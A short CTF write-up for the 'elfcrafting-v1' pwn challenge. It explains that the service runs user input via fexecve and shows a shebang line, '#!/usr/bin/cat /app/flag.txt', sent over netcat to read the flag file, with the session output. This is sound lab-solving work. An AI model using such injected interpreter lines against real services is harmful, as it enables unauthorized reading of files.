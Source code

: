 # elfcrafting-v1

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/164e221d-58e8-404b-ad5c-dc02b5fdbd72)

see Dockerfile, chall files

## solution

we know the flag is in `/app/flag.txt`, first of all

next, we take a look at the chall binary in binja

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/3f0cef33-74d3-43e0-8f2a-d1b0d3aebc0b)

we can see that it does `fexecve`. i wonder what that is?

if we look at [docs](https://man7.org/linux/man-pages/man3/fexecve.3.html), we see that it is the same as execve but with a file descriptor, so reading from memory

for execve, we see [here](https://man7.org/linux/man-pages/man2/execve.2.html)

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/d8c9c2dd-6322-4646-97ff-2fd7513d1f0f)

hmm. what if we use an interpreter script instead?

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/9f9d1816-7edd-49a7-8002-43fdff8d8c93)

it looks like we can run any executable, so we input `#!/usr/bin/cat /app/flag.txt`

```
quasar@quasar098:~$ nc amt.rs 31178
I'm sure you all enjoy doing shellcode golf problems.
But have you ever tried ELF golfing?
Have fun!
#!/usr/bin/cat /app/flag.txt
read 29 bytes from stdin
wrote 29 bytes to file
amateursCTF{i_th1nk_i_f0rg0t_about_sh3bangs_aaaaaargh}
/usr/bin/cat: /dev/fd/3: No such file or directory
```

we get the flag

this was the easiest pwn chall i've ever seen, and probably one of the only ones i can complete
